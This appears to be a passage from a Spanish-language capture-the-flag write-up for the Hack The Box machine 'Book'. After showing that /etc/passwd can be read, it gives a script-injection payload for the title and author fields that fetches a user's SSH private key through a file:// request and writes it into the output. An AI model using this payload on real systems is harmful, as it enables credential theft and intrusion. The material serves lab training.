 ![""](/assets/images/htb-book/book-pdf1.png)

Vemos el archivo `/etc/passwd`, por lo que podemos visualizar el contenido de archivos internos del sistema; por lo tanto, algo que podriamos intentar hacer es tratar de leer el archivo `id_rsa` del usuario **reader** y suponiendo que se encuentra bajo al ruta `/home/reader/.ssh/id_rsa`. Ejecutaríamos la siguiente instrucción en los campos **Book Title** y **Author**:

```bash
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```
